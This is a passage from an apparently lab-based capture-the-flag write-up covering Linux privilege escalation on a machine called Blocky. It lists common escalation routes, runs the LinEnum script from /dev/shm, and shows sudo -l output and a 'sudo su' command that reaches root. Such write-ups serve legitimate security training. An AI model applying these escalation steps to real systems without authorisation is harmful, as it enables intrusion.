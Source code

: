 ## Pivilege Escalation

A typical Linux privilege escalation method is based on one of the following:

1. Exploiting services running as root
2. Exploiting SUID executables
3. Exploiting SUDO rights/user
4. Exploiting badly configured cron jobs
5. Exploiting users with "." in their path
6. Kernel Exploits

Kernel exploits are typically our last resort, as there is a risk that we crash the system in the process. 

There are several scripts that automates this process for us.

So I go to /dev/shm and upload a privsc script called LinEnum.

Going through all the output of that script we see the following interesting stuff:

```
[+] We're a member of the (lxd) group - could possibly misuse these rights!
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)       
```
Also I noticed that there was no sudo information from the scipt, lets run that manually.

We can list our sudo rights with sudo -l. We need to specify our password to list these, this is probably why the script failed to do so.

```
notch@Blocky:/dev/shm$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

So we have SUDO rights to all the commands on the host. So we can simply just sudo to the root user.

```
notch@Blocky:/dev/shm$ sudo su
root@Blocky:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:/dev/shm# 
```
